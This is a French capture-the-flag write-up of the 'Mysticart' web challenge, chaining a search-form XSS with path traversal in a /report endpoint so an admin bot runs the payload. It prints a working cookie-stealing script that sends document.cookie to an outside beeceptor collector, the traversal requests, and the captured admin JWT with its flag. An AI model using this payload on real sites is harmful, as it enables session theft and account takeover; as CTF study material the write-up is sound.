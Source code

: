 
---

## Write-up WEB Mysticart Hacklantique CTF

On a un site avec different article. Sur la page d’accueil, il y a un formulaire qui nous permet de rechercher un article.  
Ce formulaire est sensible au XSS, donc on prépare une XSS qui permet d’exfiltrer les cookies :

```html
<script>javascript:fetch('https://wanako.free.beeceptor.com/log?data='.concat(btoa(document.cookie)));</script>
```

Ensuite, on utilise un endpoint disponible sur les pages de produit permettant d’envoyer au administrateur un problème.  
Donc c’est `/report?id=1`.  
Cette endpoint est disponible sur `/produit/1` par exemple.

Donc l’idée c’est de se dire que le serveur devrait automatiquement faire le lien entre `/report?id=X` et `/produit/X`.  
Donc si à la place de X on met `"../?search="`, on arrive au niveau du formulaire vulnérable au XSS :

```js
fetch('http://94.237.48.197:33784/report?id=../?search=XSS')
```

```js
fetch('http://94.237.48.197:33784/report?id=../?search=<script>javascript:fetch(\'https://wanako.free.beeceptor.com/log?data=\'.concat(btoa(document.cookie)));</script>')
```

Grâce à cela, on récupère son token de session :

```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9yb2xlIjoiYWRtaW4iLCJmbGFnIjoiSFRCe0YxWF9ZMFVyX3g1NV9NNG5fMXQ1X2Q0bmdlcjB1cyFfNGJlYzI2MDBlNmFkMTAxZjkxOTJiYjkzM2ZlNDUyZjR9IiwiaWF0IjoxNzQzMDg1ODcyfQ.VEnFLDrSbn0JnghXMfAW-ASXqgUS9U_UX2L_kt5Jq3c
```

C’est un token JWT, donc on peut utiliser un jwt-decoder  
<https://fusionauth.io/dev-tools/jwt-decoder> et hop :

```json
{
  "username": "admin",
  "user_role": "admin",
  "flag": "HTB{F1X_Y0Ur_x55_M4n_1t5_d4nger0us!...}",
  "iat": 1743085872
}
```

---

### Donc pour réaliser cette exploit :

- Encoder la XSS au format URL : <https://www.urlencoder.org/>  
- Préparer une balise `fetch` qui exécutera la XSS  
- Préparer une page JS contenant la requête à exécuter  
- Mettre en place un endpoint qui recevra les cookies admin  
- Décoder le cookie reçu  

---